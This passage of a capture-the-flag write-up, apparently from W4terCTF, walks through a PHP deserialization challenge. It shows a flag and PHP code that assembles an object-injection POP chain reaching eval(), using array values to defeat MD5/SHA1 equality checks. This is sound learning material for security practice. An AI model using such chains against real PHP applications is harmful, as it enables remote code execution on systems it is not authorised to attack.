 ```
Flag: W4terCTF{c0N9ra7u1ATIonS_0N_hacK1nG_A_pRoGraM_foR_TH3_1IrSt_t1Me}
```



## Happy PHP

### part1

阅读php代码，梳理逻辑如下：

- 如果url中传递了参数  gogogo ，该对象就会被反序列化。
- 反序列化的对象会触发魔术方法__wakeup()，并返回gogogo的结果。
- 如果触发phpis 类的__invoke()方法，则执行fun1(fun2())，并通过eval()函数执行代码。返回结果 == 'Yelia'的话，就调用 what->saying。

- 要调用piece1->here()，必须让 $flag 的 MD5 值等于 md5(666)。

- 如果两个不同的变量 $sy 和 $su 的 MD5 和 SHA1相等，就能echo fl491.txt。

通过构造反序列化的POP链，获得payload

```php
<?php
class phpis {
    public $what;
    public $fun1;
    public $fun2;
    function __invoke() { 
        if (preg_match('/^[a-z0-9]+$/', $this->fun1) ){
        if(preg_match('/^[a-z0-9]+$/', $this->fun2)) {
                $flag = eval("return $this->fun1($this->fun2());");
                if(intval($flag) == 'Yelia'){
                    $this->what->saying();
                } else {
                    die("nonono ,please try again !!");
                }            
            }
        }
    }
}

class thebest {
    public $gogogo;
}

class language {
    public $v1;
    public $piece1;
}

class right {
    public $sy;
    public $su;
}


$right = new right();
$right->sy = [1];
$right->su = [2]; 

$lang = new language();
$lang->v1 = "flag=" . md5(666);
$lang->piece1 = $right;

$phpis = new phpis();
$phpis->what = $lang;
```